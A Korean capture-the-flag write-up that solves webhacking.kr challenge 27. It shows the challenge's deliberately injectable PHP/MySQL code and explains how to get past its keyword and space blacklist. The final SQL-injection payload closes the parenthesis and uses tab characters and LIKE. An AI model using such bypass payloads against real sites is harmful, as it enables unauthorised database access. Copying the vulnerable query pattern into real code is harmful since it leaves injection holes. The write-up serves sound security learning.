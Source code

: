 ```yaml
---
title: "webhacking.kr old 27 문제 풀이"
date: 2025-04-11 00:10:00 +0800
categories: [Wargame, Webhacking.kr]
tags: [cyber security, writeup, webhackingkr, web hacking, sql injection]
description: webhacking.kr old 27 문제 풀이
---
```


[https://webhacking.kr/challenge/web-12](https://webhacking.kr/challenge/web-12)
# 문제 풀이
## 분석
사이트에 접속하면 떡하니 SQL Injection 문제라고 힌트를 제공하고 있고 소스코드까지 주어진다.<br />
### 소스코드
```php
<?php
  include "../../config.php";
  if($_GET['view_source']) view_source();
?><html>
<head>
<title>Challenge 27</title>
</head>
<body>
<h1>SQL INJECTION</h1>
<form method=get action=index.php>
<input type=text name=no><input type=submit>
</form>
<?php
  if($_GET['no']){
  $db = dbconnect();
  if(preg_match("/#|select|\(| |limit|=|0x/i",$_GET['no'])) exit("no hack");
  $r=mysqli_fetch_array(mysqli_query($db,"select id from chall27 where id='guest' and no=({$_GET['no']})")) or die("query error");
  if($r['id']=="guest") echo("guest");
  if($r['id']=="admin") solve(27); // admin's no = 2
}
?>
<br><a href=?view_source=1>view-source</a>
</body>
</html>
```
코드를 보면 유저로부터 no라는 입력 값을 받아서 `select id from chall27 where id='guest' and no={user_input}`을 수행하고 결과의 id가 admin이라면 문제가 해결되는 방식이라고 한다.<br />
참고로 admin의 no은 2라는 것도 친절하게 알려주고 있다.
#### 필터링
```php
"/#|select|\(| |limit|=|0x/i"
```
하지만 쿼리 문을 실행하기 이전에 어떠한 필터링이 존재하는 것이 보인다.<br />
정규식을 이용해서 필터링을 하고있어서 어떤 구문들이 막히는건지 하나하나 살펴보아야 할 듯 하다.<br />
- \#
- select
- (
- space character
- limit
- =
- 0x
## 최종 풀이
위 필터링되는 문자, 구문들을 우회하여 id가 admin인 결과를 뽑아내는 것이 우리의 목표이다.<br />
### 필터링 우회
```php
$r=mysqli_fetch_array(mysqli_query($db,"select id from chall27 where id='guest' and no=({$_GET['no']})")) or die("query error");
```
우리가 값을 입력하면 `no=(` 다음으로 값이 들어간다. 그리고 필터링을 보면 ')' 닫는 괄호는 필터링에 걸리지 않으므로 쿼리의 열린 괄호를 강제로 닫는 것이 가능하다는 것이다.<br />

우선 우리가 사용해야하는 문자나 구문을 미리 정하고 해당 부분 들을 어떻게 우회할지 생각하는 것이 우선이다.<br />
```
123) or id=admin and no=2 -- 
```
아마 이렇게 작성하면 작동할 것 같은데 space와 '=' 기호에 필터링이 걸릴 것이다.<br />
space는 SQL 쿼리에서 탭 문자(%09)로 우회가 가능하고 등호는 like 구문을 사용하면 될 듯 하다.

```
123)%09or%09id%09like%09'admin'%09and%09no%09like%09'2'%09--%09
```
그렇게 필터링에 걸릴만한 부분들을 모두 변환해주고 URL에 직접 입력해주면 문제가 해결된다.
